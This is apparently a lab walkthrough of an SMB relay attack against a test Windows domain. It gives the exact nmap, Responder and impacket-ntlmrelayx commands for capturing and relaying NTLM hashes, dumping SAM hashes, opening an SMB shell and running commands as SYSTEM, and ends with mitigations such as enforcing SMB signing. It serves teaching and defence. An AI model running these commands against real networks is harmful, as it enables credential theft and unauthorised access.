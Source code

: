 # What is SMB?

SMB stands for Server Message Block. It's a network file sharing protocol that allows applications, clients, and servers to communicate and request services from each other over a network. SMB facilitates the sharing of files, printers, and other resources between devices on a network, typically in a Windows environment. SMB is commonly used for accessing shared files and folders on local area networks (LANs) and is an integral part of Windows networking.

# What is SMB Signing

SMB signing (also known as security signatures) is a security mechanism in the SMB protocol. SMB signing means that every SMB message contains a signature that is generated by using the session key. The client puts a hash of the entire message into the signature field of the SMB header.

# What is A SMB Relay Attack

An SMB relay attack is a type of cyber attack that exploits the authentication process used in the Server Message Block (SMB) protocol. In this attack, an attacker intercepts and relays SMB authentication messages between a client and a server to gain unauthorized access to network resources.

**Requirements for performing an SMB relay attack**  
- SMB signing must be disabled or not enforced on the target  
- Must be on the local network  
- For valuable outcomes, the relayed user’s credentials must have local admin status on the machine.
- You cannot relay credentials to the same machine they were captured from

# Attack Setup

**In our attack scenario:**

- A user named Frank Castle (fcastle) from the DEUSX.local domain has local administrator privileges on two machines.
- These machines have SMB signing enable but not required which is one of the criterion required to perform this attack 

**Steps to perform this attack:**

- Identify the machines that  do not require SMB signing. Nmap can be used for this.
- Configure and startup the necessary tools (ntlmrelayx and responder)
- Next, an event needs to occur such as a user trying to access a share which could lead to LLMNR Poisoning and thereby leads to a user's hash being intercepted and relayed.
- Finally, after the he intercepted credentials have been relayed, this can then lead to gaining unauthorized access.

# SMB Relay Attack DEMO

## Step 1: Scan Network for vulnerable targets

Using Nmap we can scan the entire network/subnet to discover targets with SMB signing enabled but not required.

![](attachments/20240302225536.png)

`nmap --script=smb2-security-mode.nse -p445 192.168.0.0/24 -Pn`

Using the smb2-security-mode script and scanning port 445 (SMB) `-p445` we scan the entire subnet to discover which machines have SMB signing not required. The `-Pn` switch is used to tell Nmap to not bother pinging targets before scanning.

Scan results:

![](attachments/20240302225725.png)

2 Machines discovered do not require SMB signing `192.168.0.182` and `192.168.0.178`. Now to add the IPs  of the machines to a text file like `targets.txt`.

## Step 2: Disable SMB and HTTP in the responder config file

File is located at `/etc/responder/Responder.conf`

![](attachments/20240302225938.png)

## Step 3: Start Responder

Start Responder on the same interface connected to your target network

![](attachments/20240302230017.png)

`sudo responder -I wlan0 -dPv`

- -I Specify interface
- -d Enable answers for DHCP broadcast requests. This option will inject a WPAD server in the DHCP response.
- -P Force NTLM (transparently)/Basic (prompt) authentication for the proxy. WPAD doesn’t need to be ON. This option is highly effective.
- -v Increase verbosity.

## Step 4: Start ntlmrelayx to perform the SMB Relay attack

Ensure to specify the file that contains the target IPs 'targets.txt'

![](attachments/20240302230214.png)

`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

## Step 2: An Even Occurs in the Network

Now we wait for the victim to attempt to access a share. The user fcastle will try and access a share named 'ECORP-DC' and mistakenly type 'ECCORP-DC'

![](attachments/20240302230556.png)

****
![](attachments/20240302230641.png)

Immediately the event occurred, Responder successfully intercepted the victim's hash and used it to authenticate another machine on the network as a local administrator and ntlmrelay successfully dumped the local SAM hashes. These can then be cracked using hashcat or John the ripper.

Even better, we don't even need to crack the hash to gain access to the machine, we can just perform a  [pass-the-hash](https://en.wikipedia.org/wiki/Pass_the_hash) attack to gain access.

## Further Attacks

An interactive smbclient can be obtained by adding a -i switch to the ntlmrelyax syntax:
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -i`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support`

![](attachments/20240302230921.png)

An interactive SMB client shell has been started on 127.0.0.1:11000 which can then be accessed using netcat.

![](attachments/20240302231035.png)

Commands can also be executed directly by using the -c switch.
`sudo /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf targets.txt -smb2support -c 'command'`

OR

`sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'command'`

![](attachments/20240302231239.png)

The command `whoami` was successfully executed on the target system and we are `NT AUTHORITY/SYSTEM`

# SMB Relay Attack Mitigation

**Mitigation Strategies**:

- Enable SMB Signing on all devices
	- Pro: Completely stops the attack
	- Con: Can cause performance issues with file copies

- Disable NTLM authentication on network
	- Pro: Completely stops the attack
	- Con: If kerberos stops working, Windows defaults back to NTLM

- Account tiering
	- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need to DA)
	- Con: Enforcing the policy may be difficult

- Local admin restriction
	- Pro: Can prevent a lot of lateral movement
	- Con: Potential increase in the amount of service desk tickets

**To enforce SMB signing, enable the following policies in Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options:**

On the client side:

- Microsoft network client: Digitally sign communications (always)
- Microsoft network client: Digitally sign communications (if server agrees)

On the server side:

- Microsoft network server: Digitally sign communications (always)
- Microsoft network server: Digitally sign communications (if client agrees)

![](attachments/smb-9.png)

[source](https://tcm-sec.com/smb-relay-attacks-and-how-to-prevent-them/)

Thanks for Reading 👋
